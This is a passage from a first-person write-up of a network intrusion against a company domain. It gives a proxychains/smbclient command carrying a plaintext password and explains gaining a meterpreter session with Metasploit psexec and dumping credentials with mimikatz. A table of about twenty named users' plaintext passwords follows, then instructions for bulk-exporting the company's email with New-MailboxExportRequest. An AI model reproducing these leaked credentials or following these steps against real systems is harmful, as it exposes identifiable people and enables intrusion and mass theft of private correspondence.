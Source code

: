 I used proxychains [2] with the socks server on the embedded device and
smbclient [3] to check the password:
proxychains smbclient '//192.168.100.51/c$' -U 'hackingteam.local/besadmin%bes32678!!!'

It worked! The password for besadmin was still valid, and a local admin. I
used my proxy and metasploit's psexec_psh [4] to get a meterpreter session.
Then I migrated to a 64 bit process, ran "load kiwi" [5], "creds_wdigest", and
got a bunch of passwords, including the Domain Admin:

HACKINGTEAM  BESAdmin       bes32678!!!
HACKINGTEAM  Administrator  uu8dd8ndd12!
HACKINGTEAM  c.pozzi        P4ssword      <---- lol great sysadmin
HACKINGTEAM  m.romeo        ioLK/(90
HACKINGTEAM  l.guerra       4luc@=.=
HACKINGTEAM  d.martinez     W4tudul3sp
HACKINGTEAM  g.russo        GCBr0s0705!
HACKINGTEAM  a.scarafile    Cd4432996111
HACKINGTEAM  r.viscardi     Ht2015!
HACKINGTEAM  a.mino         A!e$$andra
HACKINGTEAM  m.bettini      Ettore&Bella0314
HACKINGTEAM  m.luppi        Blackou7
HACKINGTEAM  s.gallucci     1S9i8m4o!
HACKINGTEAM  d.milan        set!dob66
HACKINGTEAM  w.furlan       Blu3.B3rry!
HACKINGTEAM  d.romualdi     Rd13136f@#
HACKINGTEAM  l.invernizzi   L0r3nz0123!
HACKINGTEAM  e.ciceri       2O2571&2E
HACKINGTEAM  e.rabe         erab@4HT!

[1] https://github.com/Neohapsis/creddump7
[2] http://proxychains.sourceforge.net/
[3] https://www.samba.org/
[4] http://ns2.elhacker.net/timofonica/manuales/Manual_de_Metasploit_Unleashed.pdf
[5] https://github.com/gentilkiwi/mimikatz


## --[ 11 - Downloading the mail ]-------------------------------------------------

With the Domain Admin password, I have access to the email, the heart of the
company. Since with each step I take there's a chance of being detected, I
start downloading their email before continuing to explore. Powershell makes
it easy [1]. Curiously, I found a bug with Powershell's date handling. After
downloading the emails, it took me another couple weeks to get access to the
source code and everything else, so I returned every now and then to download
the new emails. The server was Italian, with dates in the format
day/month/year. I used:
-ContentFilter {(Received -ge '05/06/2015') -or (Sent -ge '05/06/2015')}

with New-MailboxExportRequest to download the new emails (in this case all
mail since June 5). The problem is it says the date is invalid if you
try a day larger than 12 (I imagine because in the US the month comes first
and you can't have a month above 12). It seems like Microsoft's engineers only
test their software with their own locale.
